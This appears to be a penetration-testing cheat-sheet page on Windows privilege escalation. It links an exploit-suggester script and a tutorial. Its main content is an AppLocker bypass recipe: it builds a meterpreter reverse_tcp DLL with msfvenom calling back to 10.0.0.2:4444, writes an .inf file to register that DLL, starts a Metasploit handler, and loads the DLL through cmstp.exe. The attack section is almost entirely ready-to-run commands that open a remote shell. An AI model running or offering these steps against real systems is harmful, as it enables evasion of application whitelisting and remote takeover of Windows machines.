 # Windows Elevation

{% embed url="https://raw.githubusercontent.com/GDSSecurity/Windows-Exploit-Suggester/master/windows-exploit-suggester.py" %}

### 

### [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

### AppLocker Bypass

Uses cmstp.exe to execute dll from an .inf file.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f dll &amp;gt; /root/Desktop/pentestlab.dll
```

make an inf file

```text
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\Users\test.PENTESTLAB\pentestlab.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

setup multihandler

```bash
msf> user exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST
> set LPORT
> exploit
```

Install the malicious dll

```text
cmstp.exe /s cmstp.inf
```

